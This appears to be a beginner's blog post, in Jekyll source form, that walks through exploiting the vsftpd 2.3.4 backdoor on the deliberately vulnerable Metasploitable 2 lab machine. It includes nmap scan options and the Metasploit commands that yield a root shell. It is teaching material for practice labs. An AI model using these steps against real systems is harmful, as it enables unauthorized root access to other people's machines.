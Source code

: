 ```yaml
---
layout: post
title: Exploiting FTP in Metasploitable 2
---
```


## Metasploitable 2

![]({{ site.baseurl }}/_site/images/meta0.png)


Metasploitable 2 is a deliberately vulnerable linux machine that is meant for beginners to practice their penetration testing skills. The challenges included in metasploitable are straightforward but also provide you with the basis of hacking. 

I've decided to start a metasploitable series, where I write short and explanatory articles while exploiting vulnerabilities in the vulnerable machine. The short articles are meat to help beginners to understand the concepts without taking in too much information in a short period of time.

### Getting started

I'm going to assume that you have your attack machine(Kai Linux) and target (metasploitable2) set up in your hypervisor and ready to go. I am using VirtualBox.

The first thing that I did was to log in to the metasploitable machine using default credentials(msfadmin:msfadmin) and discover the IP address of the machine. I need this IP address to be able to scan the open ports on the metasploitable machine. To get the IP:

```
ifconfig
```
![]({{ site.baseurl }}/_site/images/meta1.png)

### Scanning

The next thing that I did was to scan the target machine from my attack machine. Scanning is the process of discovering the open ports on the target machine and the services running on those ports. This helps to narrow down the attack pattern against that machine. I used nmap for scanning:

```
nmap -sV -sS -p- -A 192.168.100.13
```
Let's break the options down

- sV: probe open ports to determine service and version information
- sS: TCP SYN connect
- -p-: scan all ports
- A: enable OS detection, version detection, script scanning and traceroute

![]({{ site.baseurl }}/_site/images/meta2.png)

The image above shows the results from the scanning. After you do the scan, you'll notice that the target machine has a considerable number of open ports, which means there are various attack vectors in this machine.

FTP, on port 21, is on top of the list from the scan results. It also shows the version being used, vsftpd 2.3.4. This gave me an idea on enumeration, and I went on to search if there are any known vulnerabilities on that version. 

![]({{ site.baseurl }}/_site/images/meta3.png)

### Exploitation

This version of ftp has a malicious backdoor installed on it that grants the attacker root access into the target machine. After reading about the exploit, I went and searched for it in the exploit database.

```
msfconsole
search vsftpd 2.3.4
```
The exploit is available in the database, so I can use the exploit to gain access into the target machine.

![]({{ site.baseurl }}/_site/images/meta4.png)

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.100.13
exploit
```

After running the exploit, we get a shell inside the target machine. Running whoami shows that I am running as root, hence we have achieved our goal.

![]({{ site.baseurl }}/_site/images/meta5.png)

And that is how we do a simple ftp exploit on Metasploitable 2. I hope that was understandable, and easy to follow through.

More to come ...